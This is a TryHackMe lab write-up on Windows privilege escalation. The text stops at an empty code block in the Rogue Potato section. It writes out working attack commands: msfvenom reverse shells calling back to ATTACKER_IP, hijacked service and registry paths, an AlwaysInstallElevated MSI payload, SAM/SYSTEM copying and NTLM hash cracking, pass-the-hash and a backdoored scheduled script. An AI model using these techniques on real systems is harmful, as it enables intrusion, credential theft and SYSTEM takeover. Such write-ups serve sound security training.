



## Index

1. [Setup](#setup)
2. [Gaining Access - Getting a Reverse Shell](#gaining-access)
3. [Exploitation and Privilege Escalation Techniques](#exploitation)
	1. [Service Exploit - Insecure Service Permissions](#service-exploit---insecure-service-permissions)
	2. [Service Exploit - Unquoted Service Paths](#service-exploit---unquoted-service-paths)
	3. [Service Exploit - Weak Registry Permissions](#service-exploit---weak-registry-permissions)
	4. [Service Exploit - Insecure Service Executables](#service-exploit---insecure-service-executables)
	5. [Registry - Autoruns](#registry---autoruns)
	6. [Registry - AlwaysInstallElevated](#registry---alwaysinstallelevated)
	7. [Passwords - Registry](#passwords---registry)
	8. [Passwords - Saved Credentials](#passwords---saved-credentials)
	9. [Passwords - Security Account Manager (SAM)](#passwords---security-account-manager)
	10. [Passwords - Passing the Hash](#passwords---passing-the-hash)
	11. [Scheduled Tasks](#scheduled-tasks)
	12. [Insecure GUI Apps](#insecure-gui-apps)
	13. [Startup Apps](#startup-apps)
    14. [Token Impersonation - Rogue Potato](#token-impersonation---rogue-potato)
    15. [Token Impersonation - PrintSpoofer](#token-impersonation---printspoofer)
    16. [Privilege Escalation Scripts](#privilege-escalation-scripts)
4. [Conclusion](#conclusion)

***NOTE***: This writeup will be segmented based on the sections of the room


## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

We can now either fire up some program like [remmina](https://remmina.org/) which'll allow us to RDP into the VM. There's also a pretty handy tool: [xfreerdp](https://linux.die.net/man/1/xfreerdp) that can be used for this.

```console
$ xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP
```

I'll be using Remmina :)


## Gaining Access

Once we've logged into the VM using Remmina, we're greeted with this:



On the attacking machine, i.e. the one we're using, we can generate a payload using msfvenom. This'll be a TCP reverse shell. 

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o reverse.exe
```

Furthermore, we'll need to start an SMB server on our machine. This will allow us to transfer the reverse shell executable generated by `msfvenom` (`reverse.exe`) to our target machine. This can be achieved by using one of the python scripts on impacket:

```console
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

***NOTE***: It's preferable to start the server after navigating to the directory containing `reverse.exe`.

Once, we have the SMB server up, we can head back to the VM and fetch our reverse shell by executing the following:

```console
$ copy \\ATTACKER_IP\kali\reverse.exe C:\PrivEsc\reverse.exe
```



***NOTE***: To spare you some trouble, if you want to paste something from our clipboard, the shortcut for that is `Shift+Ins` for windows machines. 


Upon executing the above command, the file will be copied to `C:\PrivEsc\reverse.exe`. We can now start a listener using `nc` and run the executable on the target machine to receive a connection.

On our machine:
```console
$ sudo nc -nvlp 4444
```

On target machine:
```console
C:\Users\user>C:\PrivEsc\reverse.exe
```

Result: (our machine)
```console
$ nc -nvlp 4444 
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from MACHINE_IP.
Ncat: Connection from MACHINE_IP:49853.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\user>
```

We now have a nice reverse shell to proceed with!

Some voluntary recon is in order:

```console
C:\Users\user>whoami
win-qba94kb3iof\user

C:\Users\user>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\Users\user>
```

Nothing much, let's move onto the next section/task...


## Exploitation

### Service Exploit - Insecure Service Permissions

We'll first be using `accesschk.exe` to check account permissions for `user` on the `daclsvc` service.

```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc    
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

We can also query the service for more information:

```console
C:\Users\user> sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

We can see that this runs with `SYSTEM` privileges. We'll change the `BINARY_PATH_NAME` for `daclsvc` to our `reverse.exe`:

```console
C:\Users\user> sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS
```

Once this is done, we can start a listener on our machine and then fire up the process using: `net start daclsvc`

***NOTE***: If you just try and execute the command in the current reverse shell, it will not work since the port is already occupied, so use the remmina instance to execute the command after restarting the listener.

On the target machine (remmina):
```console
C:\Users\user>net start daclsvc
The service is not responding to the control function.

More help is available by typing NET HELPMSG 2186.
```


On our machine:
```console
$ nc -nvlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from MACHINE_IP.
Ncat: Connection from MACHINE_IP:49778.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami 
 whoami
nt authority\system
```

We now have a reverse shell with elevated privileges!


The answer to the question for this task can be seen in the original output of the `sc qc daclsvc` command:

> What is the original BINARY_PATH_NAME of the daclsvc service?\
> > `C:\Program Files\DACL Service\daclservice.exe`

### Service Exploit - Unquoted Service Paths

Let's once again return to our normal user's privilege and try to exploit unquoted service paths.

There's a service by the name of `unquotedsvc` that we'll be querying for some info:

```console
C:\Users\user> sc qc unquotedsvc    
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

This, incidentally, gives us the answer to the question for this task:

> What is the BINARY_PATH_NAME of the unquotedsvc service? \
> > `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

As the task instructs, we make use of `accesschk.exe` for checking access on `C:\Program Files\Unquoted Path Service`.

```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" 
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

Looking through the output of this query we see `RW BUILTIN\Users`, which means that users have read-write access. Moreover, this means that we can just replace the executable on this path with our reverse shell executable (`reverse.exe`). 

```console
C:\Users\user> copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
```

Now, if we close off our current reverse shell to free up the port it's using, we can spawn a reverse shell with `SYSTEM` privileges!

To execute this command, we can just use our remmina instance. Be sure to start a listener on your machine to receive the reverse shell connection though.

```console
C:\Users\user> net start unquotedsvc
```

That concludes the exploitation of unquoted service paths, now we move onto the next kind of exploit...

### Service Exploit - Weak Registry Permissions

Weakly defined permission records are a golden ticket to privilege escalation, so it's always worth checking for them. Here, we'll query the `regsvc` service to get some information to get going.

```console
C:\Users\user> sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Some more recon using `accesschk.exe`:
```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
```

Note that the registry entry for the regsvc service is writable by the `NT AUTHORITY\INTERACTIVE` group (essentially all logged-on users). Thus, we can simply overwrite the registry key for `regsvc` in _some_ way to make it execute our reverse shell executable (`reverse.exe`).


The task _instructs_ us to just overwrite the `ImagePath` registry key, but _why_? Time for some digging in...

After some serching around the web, I came across a command to fetch details about registry keys of a service. The general syntax is:

```console
Reg Query "Path to key"
```

Using this with the path to `regsvc` gives us the following output:

```console
C:\Users\user> reg query HKLM\System\CurrentControlSet\Services\regsvc

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
    Type            REG_DWORD    0x10
    Start           REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath       REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
    DisplayName     REG_SZ    Insecure Registry Service
    ObjectName      REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc\Security
```

Sure enough, there we see the `ImagePath` entry and it corresponds to a _Quoted Path_ (It doesn't really matter if it is quoted or unquoted since we can just edit it, but it's better to be specific). We can now proceed as instructed and overwrite this entry:

```console
C:\Users\user> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
The operation completed successfully.
```

If we start a listener on our machine and start the `regsvc` service, we get a reverse shell with SYSTEM privileges. :)

```console
C:\Users\user> net start regsvc
```

### Service Exploit - Insecure Service Executables

For this exploit, we'll make use of the `filepermsvc` service. (it runs with SYSTEM privileges)

Starting off with the usual recon:

```console
C:\Users\user> sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

That's one _big_ flaw, having `RW Everyone` in there means that literally _anyone_ can read/write into this service. We can just copy our reverse shell executable to `C:\Program Files\File Permissions Service\filepermservice.exe` and start the service to get a reverse shell with SYSTEM privileges.

(Be sure to start a listener on your machine to receive the connection)

```console
C:\Users\user> copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.

C:\Users\user> net start filepermsvc
```

Done! Onto the next task/section...

### Registry - Autoruns

A quick search for "autoruns executables" tells us that, (thanks GeeksForGeeks) **Autorun denotes to a service that runs inevitably without deliberately began by the end-user**.

It's quite obvious from the term itself, that these executables run by themselves. They're persistent and quite a powerful tool for gaining access and privilege on a system. There's also the `Autorun.inf` files, but they are an entirely different matter. 

Now that we have some idea of what Autoruns are, lets begin with exploiting them. To begin, we'll query the registry for AutoRun executables:

```console
C:\Users\user> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

`accesschk.exe` gives us more information:

```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

Yet again, `RW Everyone`, our golden ticket makes it all a cakewalk. We'll copy `reverse.exe` to the location of `program.exe`, essentially overwriting it.

```console
C:\Users\user> copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.
```

The only downside to this exploit is that we won't be getting a reverse shell immedieatly, but rather when the admin user will log into the machine. 


### Registry - AlwaysInstallElevated

A quick look at [Win32 App documentation for AlwaysInstallElevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) tells us all about this User Policy. Here's an extract from the documentation:

> You can use the AlwaysInstallElevated policy to install a Windows Installer package with elevated (system) privileges.
>
> **Warning**
>
> This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.
>
> To install a package with elevated (system) privileges, set the AlwaysInstallElevated value to "1" under both of the following registry keys:
> 
> `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
> 
> `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`

This also explains the next step we're instructed to carry out in this task, i.e. querying the registry for AlwaysInstallElevated:

```console
C:\Users\user>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\Users\user>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Both of the registry entries are set to `0x1`. 

We'll need to generate a different payload for this exploit, namely, a `msi` (Microsoft Software Installer?) file which we'll be transferring to the machine using the method we used in the [Gaining Access](#gaining-access) section. 

To generate the payload:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o reverse.msi
```

On the target machine (after starting SMB server on your machine):

```console
C:\Users\user>copy \\ATTACKER_IP\kali\reverse.msi C:\PrivEsc\reverse.msi
        1 file(s) copied.
```

After starting a listener on our machine we can execute the following on the target machine to get a reverse shell with SYSTEM privileges:

```console
C:\Users\user> msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

### Passwords - Registry

Passwords can usually be found lying around in registries on an average windows machine. It's an excellent resource for those looking to exploit and gain access to said machine. As the task instructs, we can search the registry for keys or values that contain the word "password" using the following command:


```console
C:\Users\user> reg query HKLM /f password /t REG_SZ /s
```

Now, this produces A LOT of output, so we're left with 2 options, first is to maybe find a way to sift through this by some sort of command, or just follow the shortcut provided by the room.

> If you want to save some time, query this specific key to find admin AutoLogon credentials:\
> > `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

The alternative is to find some way to sift through each of the entries and look for the one containing the admin password (or atleast some sort of password entry).


```console
C:\Users\user> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon
    AutoRestartShell                REG_DWORD    0x1
    Background                      REG_SZ       0 0 0
    CachedLogonsCount               REG_SZ       10
    DebugServerCommand              REG_SZ       no
    DefaultDomainName               REG_SZ
    DefaultUserName                 REG_SZ       admin
    DisableBackButton               REG_DWORD    0x1
    EnableSIHostIntegration         REG_DWORD    0x1
    ForceUnlockLogon                REG_DWORD    0x0
    LegalNoticeCaption              REG_SZ
    LegalNoticeText                 REG_SZ
    PasswordExpiryWarning           REG_DWORD    0x5
    PowerdownAfterShutdown          REG_SZ       0
    PreCreateKnownFolders           REG_SZ       {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk                    REG_SZ       1
    Shell                           REG_SZ       explorer.exe
    ShellCritical                   REG_DWORD    0x0
    ShellInfrastructure             REG_SZ       sihost.exe
    SiHostCritical                  REG_DWORD    0x0
    SiHostReadyTimeOut              REG_DWORD    0x0
    SiHostRestartCountLimit         REG_DWORD    0x0
    SiHostRestartTimeGap            REG_DWORD    0x0
    Userinit                        REG_SZ       C:\Windows\system32\userinit.exe,
    VMApplet                        REG_SZ       SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled             REG_SZ       0
    scremoveoption                  REG_SZ       0
    DisableCAD                      REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x236f172d
    ShutdownFlags                   REG_DWORD    0x7
    AutoAdminLogon                  REG_SZ       0
    AutoLogonSID                    REG_SZ       S-1-5-21-3025105784-3259396213-1915610826-1001
    LastUsedUsername                REG_SZ       admin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AlternateShells
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\GPExtensions
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\UserDefaults
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\VolatileUserMgrKey
```

> _For some reason, sometimes the password does not get stored in the registry. If this is the case, use the following password as answer: `password123`_. 

I honestly am yet to see one writeup that actually managed to get the password in one of these queries, and everywhere I've looked, it just seems that people keep saying that this is an unresolved bug, so we're better off taking the password from the task's hint. Nevertheless, it's always worth checking for passwords in registries. 

### Passwords - Saved Credentials

To list any saved credentials, we use the following command:

```console
C:\Users\user> cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

Since the creds for the admin user are saved ,we can make use of the `runas` command to execute the `reverse.exe` executable to get a reverse shell with SYSTEM privileges.

```console
C:\Users\user> runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### Passwords - Security Account Manager

The SAM and SYSTEM files can be used for extracting user password hashes, which can then the cracked by a tool like `hashcat` for use in privilege escalation.

On our target machine, we can execute the following commands and send over the SAM and SYSTEM files to our machine. 

```console
copy C:\Windows\Repair\SAM \\ATTACKER_IP\kali\
copy C:\Windows\Repair\SYSTEM \\ATTACKER_IP\kali\
```

Get the `pycryptodome` (instead of `pycrypto` becuase that one gives an error: [fix](https://stackoverflow.com/questions/70705404/systemerror-py-ssize-t-clean-macro-must-be-defined-for-formats)) module and clone into `creddump7` to dump hashes from the SAM and SYSTEM files we fetched from the target machine.

```console
$ git clone https://github.com/Tib3rius/creddump7
$ pip3 install pycryptodome
$ python3 creddump7/pwdump.py SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

# Just redirect the output and put it into a file:
$ python3 creddump7/pwdump.py SYSTEM SAM > hashes.txt
```

Now that we have the hashes, we can use hashcat to crack these...

```console
$ hashcat -m 1000 --force hashes.txt /usr/share/seclists/Passwords/rockyou.txt 
hashcat (v6.2.5) starting

...
...

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

31d6cfe0d16ae931b73c59d7e0c089c0:                         
a9fdfa038c4b75ebc76dc855dd74f0da:password123              
91ef1073f6ae95f5ea6ace91c09a963a:password321              
fc525c9683e8fe067095ba2ddc971889:Passw0rd!                

...
...
```

We can find the password to `admin` by looking the result for the hash corresponding to `admin` i.e. `a9fdfa038c4b75ebc76dc855dd74f0da`.

> What is the NTLM hash of the admin user?\
> > `a9fdfa038c4b75ebc76dc855dd74f0da`

### Passwords - Passing the Hash

Yet another cool tool: `pth-winexe` can be used for straight-up using the NTLM hash for a user and, in this case, obtaining a shell:

```console
$ pth-winexe -U 'admin%a9fdfa038c4b75ebc76dc855dd74f0da' //MACHINE_IP cmd.exe
```

### Scheduled Tasks

In this task, we'll exploit a custom script: `CleanUp.ps1` that's running as SYSTEM. Let's get some information:

```console
C:\Users\user> type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log

C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
        READ_CONTROL
```

From the comments in the script, we now know that this is set up to run every minute. From `accesschk.exe` we know that we have RW access for this script. So it's now just a matter of overwriting the contents of the script with what we want it to do. One of the simple changes is to make the script execute our `reverse.exe` so that we can receive a reverse shell when it's executed. This can be done by executing:

```console
C:\Users\user> echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

This will append the line `C:\PrivEsc\reverse.exe` to the end of the script, which can be verified by geting the contents of the script file:

```console
C:\Users\user> type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
C:\PrivEsc\reverse.exe
```

Now all we need to do is wait with a listener ready to receive our reverse shell connection with SYSTEM privileges!

### Insecure GUI Apps

For this, we can just simply use the remmina instance we've been using. There's an application shortcut on the desktop called _AdminPaint_. When we right click on it and check it's properties, we notice it's got SYSTEM privileges. This can be deduced from the contents of the `Target` field:

```txt
C:\Windows\System32\runas.exe /user:admin /savecred %windir%\system32\mspaint.exe
```

Furthermore, when we try and normally open it, we can inspect the process using tasklist:



Sure enough, it's runnig as admin. The simplest approach is to just click on _File_ followed by _Open_ (in paint) and, navigate to and select `C:/windows/system32/cmd.exe`. This will spawn a command prompt window with admin privileges.


### Startup Apps

For this task, we'll start off with checking access for `StartUp`:

```console
C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

Since `RW BUILTIN\Users` is on the list, we have read-write access. There's a pre-provided script that'll create a shortcut for `reverse.exe` in the StartUp Directory. So when the admin will log into the machine, we'll receive a reverse shell connection.

```console
C:\Users\user> cscript C:\PrivEsc\CreateShortcut.vbs
```

### Token Impersonation - Rogue Potato

According to the microsoft documentation: 

> **Impersonation Token**: An access token that has been created to capture the security information of a client process, allowing a server to "impersonate" the client process in security operations.
\- [source](https://learn.microsoft.com/en-us/windows/win32/secgloss/i-gly) under "impersonation token"


More information can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/impersonation-tokens):

> An impersonating thread has two access tokens:
> - A _primary access token_ that describes the security context of the server. To get a handle to this token, call the **OpenProcessToken** function.
> - An _impersonation access token_ that describes the security context of the client being impersonated. To get a handle to this token, call the **OpenThreadToken** function.

Lot's of new information. I've tried to break this down a bit, so here's what I have come up with:

- An impersonation token serves as a kind of "ID card" that the server/system can take a look at to check who we are. Now, if we could "forge" or "steal/obtain" one of these tokens, we could potentially use it for... well, impersonating a user and act with access to said user's privileges. 
- Quoting the documentation: "A _primary access token_ is **an access token that is typically created only by the Windows kernel and may be assigned to a process to represent the default security information for that process**". This means that if we get our hands on this token, we'll be able to get access to SYSTEM privileges.

I hope that saves some people trouble of reading through the documentation. A quick search for "Impersonatio Token exploits" yields us many available ones, including the [RoguePotato exploit](https://github.com/k4sth4/Rogue-Potato) that we'll be using. 

To begin, we need to setup a `socat` redirector on our machine, forwarding port `135` to `9999` on windows. 

```console
$ sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
```

Once this is done, if we simulate a user logging into the machine with elevated privileges, like a service account user, and using `PSExec64.exe` to trigger the `reverse.exe` executable, we'll receive a reverse shell connection on our machine with elevated privileges.

The following command can be used to simulate this:

```console
C:\Users\user> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

We now have to set up yet another listener, this time listening on port 9999, and then launch the _RoguePotato_ exploit on the target to get a reverse shell with SYSTEM privilages. This can be done by executing the following command on the target machine:

```console
